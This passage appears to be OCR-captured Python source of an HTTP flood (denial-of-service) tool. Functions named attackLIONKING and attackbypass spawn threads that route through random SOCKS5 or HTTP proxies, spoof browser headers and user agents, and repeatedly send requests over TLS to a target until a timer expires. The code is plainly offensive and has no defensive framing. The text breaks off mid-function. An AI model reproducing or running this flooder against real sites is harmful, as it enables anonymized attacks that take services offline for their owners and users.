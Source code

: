                             r1 = client.get(url)
                            r2 = client.post(url, data={'login': value})
                            r3 = client.put(url, data={'login': value})
                            r5 = client.head(url)
                except httpx.HTTPError as exc:
                   pass
#region testzone
def attackLIONKING(url, timer, threads):
    for i in range(int(threads)):
        threading.Thread(target=LaunchLIONKING, args=(url, timer)).start()

def LaunchLIONKING(url, timer):
    prox = open("./socks5.txt", 'r').read().split('\n')
    proxy = random.choice(prox).strip().split(":")
    timelol = time.time() + int(timer)
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +" / HTTP/1.1\r\nHost: " + urlparse(url).netloc + "\r\n"
    req += "Cache-Control: no-cache\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Sec-Fetch-Site: same-origin\r\n"
    req += "Sec-GPC: 1\r\n"
    req += "Sec-Fetch-Mode: navigate\r\n"
    req += "Sec-Fetch-Dest: document\r\n"
    req += "Upgrade-Insecure-Requests: 1\r\n"
    req += "Connection: Keep-Alive\r\n\r\n"
    while time.time() < timelol:
        try:
            s = socks.socksocket()
            s.connect((str(urlparse(url).netloc), int(443)))
            s.set_proxy(socks.SOCKS5, str(proxy[0]), int(proxy[1]))
            ctx = ssl.SSLContext()
            s = ctx.wrap_socket(s, server_hostname=urlparse(url).netloc)
            s.send(str.encode(req))
            try:
                for i in range(200):
                    s.send(str.encode(req))
                    s.send(str.encode(req))
            except:
                s.close()
        except:
            s.close()
#gbp
def attackbypass(url, timer, threads):
    for i in range(int(threads)):
        threading.Thread(target=Launchbypass, args=(url, timer)).start()

def Launchbypass(url, timer):
    prox = open("./http.txt", 'r').read().split('\n')
    proxy = random.choice(prox).strip().split(":")
    timelol = time.time() + int(timer)
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +" / HTTP/1.1\r\nHost: " + urlparse(url).netloc + "\r\n"
    req += "Cache-Control: no-cache\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Sec-Fetch-Site: same-origin\r\n"
    req += "Sec-GPC: 1\r\n"
    req += "Sec-Fetch-Mode: navigate\r\n"
    req += "Sec-Fetch-Dest: document\r\n"